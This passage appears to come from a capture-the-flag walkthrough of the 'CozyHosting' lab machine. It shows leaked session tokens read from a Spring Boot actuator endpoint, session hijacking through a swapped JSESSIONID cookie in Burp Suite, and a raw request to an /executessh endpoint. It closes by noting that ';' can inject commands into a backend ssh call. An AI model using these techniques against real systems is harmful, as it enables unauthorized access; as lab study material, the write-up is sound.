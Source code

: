 `/actuator/sessions` reveales leaked Session Tokens

``` JSON
{"3D68EA88F6D7EA3C5D8EB69EF3FA2801":"kanderson","7D5001CCA65267631BCED0171AE52B36":"kanderson","9714563D7FD768B5CD6D489C1FCC3000":"kanderson"}
```

### Exploit Login via Burp Suite

After Intercepting the 3 Login Requests where the Cookie
```
Cookie JSESSIONID=xx
```
should be replaced by kanderson's valid Session Token we're redirected into an admin panel.

![[Pasted image 20230921145119.png]]


### Exploit Server via Connection-Settings Form

#### Getting Started
A quick analysis shows that one interesting endpoint is accessible via the Connection Settings form:
`POST /executessh`
Surely, this endpoint screams for exploitation. So i fiddled around with it using Burp.

``` HTTP
POST /executessh HTTP/1.1
Host: cozyhosting.htb
Content-Length: 21
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://cozyhosting.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://cozyhosting.htb/admin
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=E5AD66E7605EB2B67533DF889A1EC5AB
Connection: close

host=abc&username=vcb
```

#### Security Mechanisms
The Input is parsed by the app's backend allowing 
* only valid Host names (IP-Pattern, single word, no spaces, etc.)
* usernames without spaces

But basically it is possible to interrupt the internal 
`ssh username@host` implementation... e.g. using `;` symbol
